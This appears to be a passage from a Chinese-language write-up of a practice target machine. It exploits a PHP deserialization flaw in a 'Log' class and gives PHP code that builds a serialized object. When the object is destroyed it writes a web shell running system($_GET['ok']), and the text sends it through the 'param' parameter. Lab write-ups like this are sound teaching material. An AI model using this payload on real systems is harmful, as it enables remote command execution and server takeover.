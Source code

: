 显然是php反序列化问题，这里我们很容易就能判断出，可以通过构造恶意序列化数据，达到写入webshell的目的：

构造反序列化数据也很简单：

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
$a = new Log();
$a->filename = "/var/www/html/scriptz/shell.php";
$a->data = '<?php echo "<p>"; system($_GET["ok"]); echo "<p\>"; ?>';
print(serialize($a));

?>
//O:3:"Log":2:{s:8:"filename";s:31:"/var/www/html/scriptz/shell.php";s:4:"data";s:54:"<?php echo "<p>"; system($_GET["ok"]); echo "<p\>"; ?>";}
```

由于我们是反序列化数据，所以实际上不需要构造方法的触发，下一步只需要寻找反序列化的入口即可，结合`index.php`中的提示：

![](/Users/ebounce/learning/刷靶机笔记/pipe/8.png)

![](/Users/ebounce/learning/刷靶机笔记/pipe/9.png)

显然这里参数是`param`，同时由于js会构造序列化数据，因此很容易判断出这个参数就是反序列化的入口，传入payload：

![](/Users/ebounce/learning/刷靶机笔记/pipe/10.png)

再访问`/scriptz`目录，已经顺利写入`shell.php`了
